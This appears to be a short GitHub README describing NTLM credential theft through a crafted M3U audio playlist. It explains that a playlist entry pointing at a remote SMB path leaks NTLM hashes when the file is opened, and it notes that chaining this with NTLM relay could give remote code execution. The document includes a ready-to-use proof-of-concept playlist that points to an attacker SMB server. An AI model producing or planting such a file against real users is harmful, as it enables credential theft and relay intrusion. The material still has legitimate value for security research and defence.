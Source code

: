 # NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE:  RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .




Tested on windows 7  “all player"


PoC :

#EXTM3U
#EXTINF:-1,leak_it_please

\\attacker_smb_server\ROPNOP

Save it as m3u extention.

![Alt text](https://raw.githubusercontent.com/kofa2002/NTLM-THEFT/master/Screenshot%20from%202019-05-04%2008-11-15.png"NTLM Leaked")


Author : Soufian El Hachmi
